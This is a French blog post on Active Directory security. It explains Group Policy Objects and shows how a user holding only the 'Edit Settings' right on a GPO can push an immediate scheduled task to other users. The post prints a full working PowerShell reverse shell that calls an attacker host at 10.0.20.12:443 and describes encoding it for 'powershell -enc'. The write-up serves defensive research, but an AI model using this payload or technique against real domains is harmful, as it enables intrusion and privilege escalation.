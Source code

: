 ```yaml
---
title: "GPO - Chemin d'attaque"
date: 2019-04-23 11:28:42
author: "Pixis"
layout: post
permalink: /gpo-abuse-with-edit-settings/
disqus_identifier: 0000-0000-0000-00ae
cover: assets/uploads/2019/04/gpo_banner.png
description: "Cet article présente ce qu'est une GPO puis décrit un chemin d'attaque possible lorsqu'un attaquant a le droit de modifier les paramètres d'une GPO qui s'applique à des utilisateurs."
tags:
  - "Active Directory"
  - Windows
---
```


Cet article présente ce qu'est une GPO (Group Policy Object) puis décrit un chemin d'attaque possible lorsqu'un attaquant a le droit de modifier les paramètres d'une GPO qui s'applique à des utilisateurs.

<!--more-->

## Group Policy Object

### Définition

Parmi les différents rôles d'un Active Directory se trouve le rôle de gestion du parc. Active Directory permet de gérer l'ensemble des machines et utilisateurs du système d'information, et pour cela les "stratégies de groupe" (Group Policy Objects - GPO) sont un outil indispensable.

Concrètement, les GPO sont un ensemble de règles/actions qui s'appliquent à un ensemble bien défini d'objets. Une GPO permet de faire beaucoup, beaucoup de choses. 

[![Example GPO](/assets/uploads/2019/04/example_gpo.png)](/assets/uploads/2019/04/example_gpo.png)

Comme on le voit sur cette capture d'écran, il est possible de créer/modifier des scripts au démarrage et à l'arrêt d'une machine, de changer les paramètres du pare-feu, de créer des tâches planifiées, ou même d'ajouter des utilisateurs au groupe local d'administration. Ce ne sont que des exemples parmi tant d'autres pour montrer à quel point les fonctionnalités imposables via GPO sont diverses et puissantes.

### Composition

Une GPO est composée de deux éléments :

* Un conteneur (Group Policy Container - GPC), qui est l'objet enregistré dans l'Active Directory, sous le groupe `adsec.local > system > policies`. Chaque GPO est identifiée par un identifiant unique dans le domaine.

[![GPC](/assets/uploads/2019/04/gpc.png)](/assets/uploads/2019/04/gpc.png)

C'est ici que sont gérés finement les droits de création/modification des GPO, comme tout objet de l'Active Directory. 


* Les fichiers qui contiennent les informations à appliquer sur les machines ou les utilisateurs. Ces fichiers sont présents sur chaque contrôleur de domaine, dans le partage réseau `\\dc-01.adsec.local\SYSVOL\adsec.local\Policies\`, et sont organisés dans des dossiers : Un dossier par GPO, le nom du dossier étant l'identifiant unique correspondant au conteneur GPC.

[![GPO files](/assets/uploads/2019/04/gpo_files.png)](/assets/uploads/2019/04/gpo_files.png)

C'est grâce à l'exposition de ces fichiers aux comptes de domaine que ces derniers peuvent mettre à jour leurs GPO.

## Contexte de recherche

Dans ma croisade en plein Active Directory, j'utilise de manière très intense l'outil [Bloodhound](https://github.com/BloodHoundAD/BloodHound) développé par [@wald0](https://twitter.com/_wald0), [@Harmj0y](https://twitter.com/harmj0y) et [@CptJesus](https://twitter.com/cptjesus), que je ne remercierai jamais assez pour leur travail et leur disponibilité sur leur slack [BloodHoundHQ](https://bloodhoundgang.herokuapp.com/). 

Après avoir regardé la [prise de parole](https://www.youtube.com/watch?v=0r8FzbOg2YU&list=PL1eoQr97VfJnvOWo_Jxk2qUrFyB-BJh4Y&index=4&t=0s) de [@wald0](https://twitter.com/_wald0) et [@CptJesus](https://twitter.com/cptjesus) à la conférence [WeAreTroopers](https://www.troopers.de/), j'ai commencé à me pencher sur les chemins d'attaque impliquant les GPO. Bloodhound aide énormément sur ce sujet, et propose notamment un chemin d'attaque lorsqu'un compte du domaine a les droits `WriteDacl` sur une GPO. 

[![BloodHound Path](/assets/uploads/2019/04/bh_path.png)](/assets/uploads/2019/04/bh_path.png)

Sur ce schéma, on voit un utilisateur avec un crâne, correspondant à un compte compromis. Ce compte fait partie d'un groupe qui possède les droits `WriteDacl` sur une GPO. Cette GPO s'applique enfin à une unité d'organisation (OU) contenant notamment l'utilisateur en bas à droite, cible de l'attaque.

Ce droit `WriteDacl` permet aux membres du groupe de modifier les ACL (Access Control List) de la GPO concernée, c'est à dire les droits d'accès à la GPO, notamment la modification du propriétaire de l'objet. Ainsi, un utilisateur du groupe possédant ce droit peut s'auto-proclamer propriétaire, pour ensuite la modifier arbitrairement.

Par défaut, lorsqu'une GPO est créée, peu de personnes ont le droit de la modifier. Les utilisateurs peuvent la lire (obligatoire pour pouvoir l'appliquer !), mais seuls les groupes "Domain Admins" et "Enterprise Admins" ont les droits absolus dessus, c'est à dire qu'ils peuvent la modifier (Edit Settings), la supprimer (Delete), et modifier les droits d'accès (Modify Security).

[![ACL GPO](/assets/uploads/2019/04/ACL_GPO.png)](/assets/uploads/2019/04/ACL_GPO.png)


Si un administrateur souhaite déléguer ces permissions à un utilisateur sans pour autant l'ajouter à l'un des deux groupes, c'est tout à fait possible via cet onglet de délégation. C'est un endroit simplifiant la gestion des droits sur une GPO. En effet, il est tout à fait possible de modifier les droits directement au niveau de la GPC, mais c'est beaucoup plus complexe.

[![GPC Rights](/assets/uploads/2019/04/GPC_rights.png)](/assets/uploads/2019/04/GPC_rights.png)

On voit que la barre de défilement permet de lister un grand, très grand nombre de paramètres d'accès.

Il est donc plus aisé de passer par l'interface de gestion des GPO pour ajouter un utilisateur afin de lui déléguer des droits :

[![Add User ACL Gpo](/assets/uploads/2019/04/add_user_acl_gpo.png)](/assets/uploads/2019/04/add_user_acl_gpo.png)

Puis on indique les droits qu'on lui concède :

[![Edit settings user](/assets/uploads/2019/04/edit_settings_add_user.png)](/assets/uploads/2019/04/edit_settings_add_user.png)

Trois choix sont proposés, choix qui sont une préselection facilitant la vie des administrateurs, en modifiant des droits bien précis au niveau de la GPC.

[![Edit settings added for user](/assets/uploads/2019/04/settings_added.png)](/assets/uploads/2019/04/settings_added.png)

Maintenant cet utilisateur fait partie des personnes/groupes à avoir les droits ultimes sur cette GPO. C'est ce contrôle total que l'on voit apparaitre dans BloodHound lorsqu'une entité a un lien "WriteDacl" vers une GPO. En effet, cette présélection ajoute les paramètres de sécurité "Modify Owner" et "Modify Permissions".

[![Write DACL](/assets/uploads/2019/04/writedacl.png)](/assets/uploads/2019/04/writedacl.png)



## Droit "Edit Settings"

On a vu au-dessus qu'il y avait trois niveaux de délégation :

* Read
* Edit Settings
* Edit Settings, delete, modify security

Le troisième niveau est pris en charge dans la collecte BloodHound. Cependant, que se passe-t-il si un utilisateur ne possède que le droit de modifier la GPO, mais pas les ACL associées ? C'est la question que je me suis posée. 

Pour y répondre, j'ai créé une GPO d'exemple, appelée "TestGPO Abuse", s'appliquant à l'ensemble des utilisateurs appartenant à l'OU "Domain Users". Comme dans l'exemple précédant, j'ai ajouté l'utilisateur "jdoe" dans la délégation de la gestion de cette GPO, en indiquant qu'il ne pouvait que modifier les paramètres de cette GPO, mais pas les ACL associées ("Edit Settings").

[![Edit Settings for jdoe](/assets/uploads/2019/04/edit_settings_jdoe.png)](/assets/uploads/2019/04/edit_settings_jdoe.png)

## GPO appliquée à des utilisateurs

Dans ma recherche, je souhaitais également savoir ce que je pouvais faire lorsque la GPO ne s'appliquait qu'à des utilisateurs, pas à des machines. C'est pourquoi "TestGPO Abuse" ne s'applique qu'à l'OU "Domain Users". En effet, tous les paramètres contrôlables dans la partie "Computer Configuration" de la GPO ne s'appliqueront pas si cette GPO est destinée à des utilisateurs. Seuls ceux dans "User Configuration" le seront.

[![No Computer GPO](/assets/uploads/2019/04/no_computer_gpo.png)](/assets/uploads/2019/04/no_computer_gpo.png)

Mais concrètement, qu'est-ce qui est disponible dans les paramètres de GPO appliqués à un utilisateur ? Et bien beaucoup moins de choses, mais des paramètres intéressants tout de même !

[![User Example GPO](/assets/uploads/2019/04/user_gpo_example.png)](/assets/uploads/2019/04/user_gpo_example.png)

On voit qu'on peut installer des paquets, gérer encore une fois les scripts au login/logout, éditer des groupes et utilisateurs locaux et les tâches planifiées.

## Exploitation via une tâche planifiée immédiate

Nous allons nous intéresser plus particulièrement aux tâches planifiées. Il est possible de créer des tâches planifiées qui s'exécuteront immédiatement, lorsque la GPO sera appliquée à l'utilisateur.

Ainsi, si nous nous connectons en tant que l'utilisateur `jdoe` sur une machine, nous pouvons créer cette tâche.

[![Abuse Task](/assets/uploads/2019/04/abusetask.png)](/assets/uploads/2019/04/abusetask.png)

Elle est créée en tant que l'utilisateur `jdoe`, et lorsqu'elle sera appliquée, ce sera en tant que l'utilisateur à qui elle s'applique.

Dans l'onglet "Actions", nous indiquons ce qu'il se passera à l'exécution. Ici, nous utilisons un reverse-shell en Powershell pour que lors de son exécution, l'utilisateur cible se connecte à l'attaquant en proposant un shell.

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.0.20.12",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Ce code est transormé en base 64 pour le passer à la commande `powershell -enc <base 64 de la commande>`.

[![Abuse Task Powershell](/assets/uploads/2019/04/abusetask_pwsh.png)](/assets/uploads/2019/04/abusetask_pwsh.png)

Une fois cette tâche créée, lors de la mise à jour des GPO sur un client, par exempe sur le compte `support-account`, elle sera exécutée sur la machine, et l'attaquant récupère un shell.

[![Reverse Shell Worked](/assets/uploads/2019/04/re_shell_worked.png)](/assets/uploads/2019/04/re_shell_worked.png)

## Conclusion

L'idée de cet article est de montrer que les GPO sont un pilier dans l'organisation d'un Active Directory, et doivent être maitrisées tout autant que beaucoup d'autres objets. Une permission mal placée peut permettre à un attaquant d'en abuser et d'élever ses privilèges dans le système d'information.

Ici, l'exemple de la tâche planifiée a été utilisé sur une GPO appliquée à des utilisateurs, cependant il existe un grand nombre de possibilités ouvertes par les GPO qui peuvent être utilisées pour exécuter du code. 
